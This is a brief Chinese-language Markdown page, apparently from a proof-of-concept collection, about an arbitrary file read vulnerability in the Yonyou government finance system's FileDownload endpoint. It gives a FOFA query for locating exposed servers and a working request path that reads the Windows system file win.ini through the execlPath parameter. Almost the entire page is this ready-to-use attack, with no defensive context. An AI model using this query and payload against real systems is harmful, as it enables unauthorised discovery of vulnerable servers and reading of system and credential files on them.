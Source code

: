 ## 用友政务财务系统FileDownload存在任意文件读取漏洞

## fofa
```
app="用友-政务财务系统"
```

## poc
```
/bg/attach/FileDownload?execlPath=C://Windows//win.ini

```

